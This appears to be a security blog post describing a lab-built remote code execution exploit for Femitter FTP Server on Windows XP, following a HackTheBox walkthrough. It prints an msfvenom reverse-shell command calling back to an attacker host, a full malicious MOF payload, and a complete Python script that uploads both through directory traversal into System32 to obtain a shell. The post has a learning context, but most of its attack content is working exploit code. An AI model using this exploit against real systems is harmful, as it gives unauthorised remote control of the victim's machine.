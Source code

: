 ```yaml
---
layout: single
title: Femitter FTP RCE Exploit
date: 2019-2-16
classes: wide
header:
  teaser: /assets/images/Femitter/fem.png
tags:
  - Femitter
  - Directory Transversal
  - DropZone
  - MOF
  - FTP
  - Windows XP
  - RCE
  - hackthebox.eu
--- 
```

  
  After watching [Ippsec's walkthrough for Dropzone](https://www.youtube.com/watch?v=QzP5nUEhZeg&t=1743s) on [hackthebox.eu](https://hackthebox.eu), I was pretty amazed that you could get code execution on Windows XP with just write privileges. If you have not seen the walkthrough yet, I highly encourage you watch it. He goes over MOF files, Stuxnet, MSF's interactive Ruby shell, etc. 

  In the walkthrough, he uses TFTP to upload an executable to the victim's System32 directory and then uploads a malicious MOF file to the System32/wbem/mof directory which runs the executable. I had to try this for myself! I started thinking about potential XP lab setups and settled on Femitter FTP as it allows for directory transversal. Typically, this vulnerability is used to get directory listings/enumeration, but if there was a way to use the directory transversal to write to directories of interest, we could potentially replicate what Ippsec had done on Dropzone and get code execution. 

### Getting Femitter FTP Up and Running
  The Femitter installer can be downloaded [here](http://acritum.com/fem) and about half-way down the page there is a link to 'Download the latest version.' Once placed on your XP VM, simply run the installer with all default configurations and it will place a folder called 'Femitter' in your 'Program Files' directory. Navigate to the Femitter folder and run the exe. Click on the 'FTP Server' tab and select 'Start.' Check that your VM is now running the FTP server on port 21 with a simple nmap scan.
  
### Quest for RCE
  By default, Femitter will allow anonymous authentication and will drop an authenticated user into the C:/Program Files/Femitter/Shared directory which we cannot upload files to. After changing to the 'Upload' directory, we are able to place files onto the remote box. Let's first test the well-documented directory transversal vulnerability which can be found on Exploit DB [here](https://www.exploit-db.com/exploits/15445). 

![](/assets/images/Femitter/fem_dirTransverse.png)

  Ok awesome, the exploit from nearly 10 years ago still works, this is ground breaking stuff here ;). After trying a bunch of different ways to directly upload files to directories of interest, I was only able to find 2 ways with the Linux FTP client. As long as the working directory allows uploads, there are at least a couple of ways to get the files where we want them. The first way is to PUT the file and then specify the destination path.

![](/assets/images/Femitter/putSystem32.png)

The second way, is to PUT the file and then rename the file specifying it's full path. 

![](/assets/images/Femitter/putRename.png)

Now we have everything we need to get code execution since we can use the directory transversal to put files where we want them. I just used `msfvenom` to create my executable with `msfvenom -p windows/shell_reverse_tcp lhost=<yourIP> lport=443 -f exe -o zzzzz.exe` and I had already created a malicious MOF file following along with Ippsec's walkthrough (again, watch his walkthrough.) Set up your listener before you rename or put the MOF file in `/wbem/mof` as this is the action which runs our zzzzz.exe reverse shell. 

![](/assets/images/Femitter/putMOF.png)

![](/assets/images/Femitter/shellCatch.png)

Awesome!

### Scripting the Process for Fun

```python
#!/usr/bin/python

#This script is designed to take advantage of a directory transversal vulnerability in Femitter FTP Server <= 1.04;
#Tested on XP Professional x86;
#You will need to set up a listener to catch the reverse shell;
#You might also need to manually hardcode the ftp.cwd() command below if Femitter is not in a default configuration;
#Inspired by Ippsec's DropZone walkthrough & HackTheBox.eu

#1. creates an MSF payload;
#2. creates a MOF payload;
#3. uploads both payloads to writable dir;
#4. renames them to place them in system32 and system32/wbem/mof/ respectively;

import os
import sys
from ftplib import FTP

if len(sys.argv) != 3:
    print("Usage: femitter.py lhost lport\nExample: femitter.py 10.10.10.10 443")
    exit()
else:
    lhost = sys.argv[1]
    lport = sys.argv[2]

command = "msfvenom -p windows/shell_reverse_tcp lhost=" + lhost + " lport=" + lport + " -f exe --platform windows -a x86 -o zzzzz.exe >/dev/null 2>&1"


print('[+] creating msfvenom payload...' + '\r') 
os.system(command)

#creating our hardcoded MOF payload, thanks to ippsec
print('[+] creating MOF payload...' + '\r')
mof_file = open("exploit.MOF", "w")
mof_file.write("""#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass54266
{
  	[key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
 	[key] string Name;
  	[not_null] string ScriptingEngine;
  	string ScriptFileName;
  	[template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};

instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};

Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"zzzzz.exe\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass54266\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";

};

instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass54266\\"";
  QueryLanguage = "WQL";
};

instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};

instance of MyClass54266 as $MyClass
{
  Name = "ClassConsumer";
};

""")
mof_file.close()

victimIP = str(raw_input("[!] enter the victim IP: "))
username = str(raw_input("[!] enter Femitter FTP username: "))
password = str(raw_input("[!] enter Femitter FTP password: "))

#login to ftp server, change directories, upload our msfvenom payload, upload our .MOF payload, catch reverse-shell
print('[+] authenticating to Femitter server...')
try:
	ftp = FTP(victimIP)
	ftp.login(username,password)
except:
	print('[-] unable to connect to server')
try:	
	print('[+] uploading payloads...')
	ftp.cwd('Upload')
	#^Change this if femitter is not in default config!!^ 
	ftp.storbinary('STOR zzzzz.exe', open('zzzzz.exe', 'rb'))
	ftp.storbinary('STOR exploit.MOF', open('exploit.MOF', 'rb'))
except:
	print('[-] unable to upload payloads, non-default configuration?')
try:	
	print('[+] executing payloads...')
	ftp.rename('zzzzz.exe', '../../../../../../windows/system32/zzzzz.exe')
	ftp.rename('exploit.MOF', '../../../../../../windows/system32/wbem/mof/exploit.MOF')
	ftp.quit()
	print('[+] enjoy that shell ;)')
except:
	print('[-] unable to execute payloads')
```



  

  
